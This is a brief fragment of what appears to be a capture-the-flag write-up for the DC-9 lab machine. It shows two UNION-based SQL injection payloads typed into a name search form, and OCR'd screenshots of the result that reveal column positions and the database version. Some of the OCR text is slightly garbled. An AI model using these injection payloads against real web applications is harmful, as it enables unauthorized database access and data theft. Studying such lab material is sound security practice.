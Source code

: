 <img src="DC-9/media/image6.png" style="width:2.875in;height:2.51667in" alt="Search results Name: Mary Moe Position: CEO Phone No: 46478415155456 Email: marym@example.com Go Back " />

mary' union all select 1,2,3,4,5,6 -- -
mary' union all select 1,2,3,4,@@version,6 -- -

<img src="DC-9/media/image7.png" style="width:3.88333in;height:2.2in" alt="Search information You can search using either the first or last name. Search: elect - " />

<img src="DC-9/media/image8.png" style="width:3.54167in;height:3.125in" alt="Search results Name: Mary Moe Positiom CEO Phone No: 46478415155456 Email: marym@example.com Name: 2 3 Position: 4 Phone No: 10.3.17.ManaDB.0+deb10u1 " />

